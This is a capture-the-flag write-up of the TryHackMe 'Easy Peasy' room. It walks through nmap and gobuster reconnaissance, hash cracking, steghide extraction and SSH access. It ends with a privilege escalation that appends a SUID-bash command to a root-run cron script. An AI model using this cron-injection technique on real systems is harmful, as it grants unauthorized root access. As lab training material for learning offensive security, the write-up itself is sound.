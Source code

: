 ```yaml
---
title: THM | Easy Peasy
date: 2023-12-18 09:24:00 +0530
categories: [Nmap and GoBuster]
tags: [cronjob, John The Ripper] 
---
```


Tryhackme Room: [https://tryhackme.com/easypeasyctf](https://tryhackme.com/room/easypeasyctf)

# Reconnaisance

## Nmap

```
nmap -sS -T4 -p1-65535 -sV 10.10.3.41
```

```
Nmap scan report for 10.10.3.41
Host is up (0.18s latency).
Not shown: 65532 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
80/tcp    open  http    nginx 1.16.1
6498/tcp  open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
65524/tcp open  http    Apache httpd 2.4.43 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Open Ports

- 80 http
- 6498 ssh
- 65524 http

## Port 80 (HTTP)

The web server is showing default nginx page.

![d66abc272c62094382155ae592c9f960.png](/Tryhackme/EasyPeasy/_resources/d66abc272c62094382155ae592c9f960.png)

Next we will use gobuster utility to find hidden files and directories.

```
gobuster dir -u http://10.10.3.41/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 250 -x php,htnl,txt

```

We Found the following result.

```
/robots.txt           (Status: 200) [Size: 43]
/hidden               (Status: 301) [Size: 169]
```

We found the /hidden directory, so we will open this directory in the browser.

![c9b04fb70a1843627e1b33ae0906645e.png](/Tryhackme/EasyPeasy/_resources/c9b04fb70a1843627e1b33ae0906645e.png)

Nothing interseting found in the webpage and the source code. So, we will run gobuster again in this directory.

```
gobuster dir -u http://10.10.3.41/hidden/ -w /usr/share/wordlists/dirb/common.txt -t 250
```

We found the following result.

```
/index.html           (Status: 200) [Size: 390]
/whatever             (Status: 301) [Size: 169] 
```

Next we will browse this /whatever directory and check the source code.

![18ad9e0a9e314c06ab28c46ace0b1efe.png](/Tryhackme/EasyPeasy/_resources/18ad9e0a9e314c06ab28c46ace0b1efe.png)

![03723e1e52824e7b99414511279927a7.png](/Tryhackme/EasyPeasy/_resources/03723e1e52824e7b99414511279927a7.png)

We found a base64 encoded string. So, lets decode it.

![f45ea9db7dbf39b3a663df4ffe3cb464.png](/Tryhackme/EasyPeasy/_resources/f45ea9db7dbf39b3a663df4ffe3cb464.png)

We found our first flag.

Nex we will move to the other http web server running apache on port 65526.

## Port 65524 (HTTP)

The web server running default Apache and we are displayed with default page.

![b501aee346c65354d1b72058a39bc530.png](/Tryhackme/EasyPeasy/_resources/b501aee346c65354d1b72058a39bc530.png)

By closely looking at the page we found a flag3.

![7fc99c3f88b3954330c255bd4ba7fad9.png](/Tryhackme/EasyPeasy/_resources/7fc99c3f88b3954330c255bd4ba7fad9.png)

Next, we will run gobuster and look for hidden directories and files
```
gobuster dir -u http://10.10.219.20:65524/ -w /usr/share/wordlists/dirb/common.txt -t 250
```

Nothing interesting found except `/robots.txt`. 

We found a MD5 hash in the robots.txt file and further we cracked it online

![93fc6b5d284521fb5d92cae282ceac3f.png](/Tryhackme/EasyPeasy/_resources/93fc6b5d284521fb5d92cae282ceac3f.png)

![dee1f5ce0f5ef7a253492eadc33d9bb7.png](/Tryhackme/EasyPeasy/_resources/dee1f5ce0f5ef7a253492eadc33d9bb7.png)

Then, we checked the source page of the apache defualt page, where we got base62 decoded string.

![cbe8549b674ffe17544ffe2805a9181b.png](/Tryhackme/EasyPeasy/_resources/cbe8549b674ffe17544ffe2805a9181b.png)

We decoded the above string and found our hidden directory.

![289808b48432c9fb7331d16453aa74b5.png](/Tryhackme/EasyPeasy/_resources/289808b48432c9fb7331d16453aa74b5.png)

Then, We accessed the hidden directory and found a hash in the source page.

![574a67f9643460139285933bb0d0a487.png](/Tryhackme/EasyPeasy/_resources/574a67f9643460139285933bb0d0a487.png)

![89a92702225a908bf46f78cd1d693e09.png](/Tryhackme/EasyPeasy/_resources/89a92702225a908bf46f78cd1d693e09.png)

As the provided wordlist is recomended to crack the hash, we will do the same.

```
john --format=gost --wordlist=easypeasy.txt hash3.txt
```

![cc7d96d3698ae888a8e4db164a32a66f.png](/Tryhackme/EasyPeasy/_resources/cc7d96d3698ae888a8e4db164a32a66f.png)
 
 Or we can crack it online using `https://md5hashing.net/`
 
 ![01ddd1c46521ddff29beee03e8d24ebc.png](/Tryhackme/EasyPeasy/_resources/01ddd1c46521ddff29beee03e8d24ebc.png)
 
 As, we require password for the SSH login. Next, with the previously cracked password, we will try to extract any hidden information in the image file named `binarycodepixabay.jpg`.
 
 Extracted secret text file using `steghide` tool.
 
 ```
 steghide extract -sf binarycodepixabay.jpg 
 ```
 ![de3b4a553e2b671266d8f5957d50be8e.png](/Tryhackme/EasyPeasy/_resources/de3b4a553e2b671266d8f5957d50be8e.png)
 
 Then, we converted the binary to text and the password.
 
 ![236d137c4d2437cebc01d07fcc85901d.png](/Tryhackme/EasyPeasy/_resources/236d137c4d2437cebc01d07fcc85901d.png)
 

# Initial Foothold

 
So, after getting the credential to login, we ssh to the machine and got the user flag.
 
 ```
 ssh boring@10.10.219.20 -p 6498
```

![9ca9b1256c68c455b45add16977013d8.png](/Tryhackme/EasyPeasy/_resources/9ca9b1256c68c455b45add16977013d8.png)

But, we have to decode the cypher text and get our flag.

![ba4c282f6aa223495e7964edbc18c9d7.png](/Tryhackme/EasyPeasy/_resources/ba4c282f6aa223495e7964edbc18c9d7.png)


# PrivEsc

After checking the cron jobs and sudo permissions, we were not getting anything for elevate privilege.
So, we transferred linpeas.sh to the target machine and run the script.

![4e33ba2c1f15c0f0159c42ee68919658.png](/Tryhackme/EasyPeasy/_resources/4e33ba2c1f15c0f0159c42ee68919658.png)

We found the interesting file under /var/www 

![6477b3f9eccbceef736e83eb39ef9b76.png](/Tryhackme/EasyPeasy/_resources/6477b3f9eccbceef736e83eb39ef9b76.png)

Interestingly this script is running by root as cron job.

![6e9dc5eedbd8cf8535268202e3781352.png](/Tryhackme/EasyPeasy/_resources/6e9dc5eedbd8cf8535268202e3781352.png)

So we will add our malicious code to get a copy of bash with suid in the /tmp directory
```
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' >> .mysecretcronjob.sh
```

![7bdfcab48ac9db7b5ecaa0b8fdf47409.png](/Tryhackme/EasyPeasy/_resources/7bdfcab48ac9db7b5ecaa0b8fdf47409.png)

Next, We will execute the script and get the root privilege and read the root flag under /root directory

![1b59a4fb29d64a111f68631b4403df5c.png](/Tryhackme/EasyPeasy/_resources/1b59a4fb29d64a111f68631b4403df5c.png)

![60f76851290d31ad26bd98dbf7badaea.png](/Tryhackme/EasyPeasy/_resources/60f76851290d31ad26bd98dbf7badaea.png)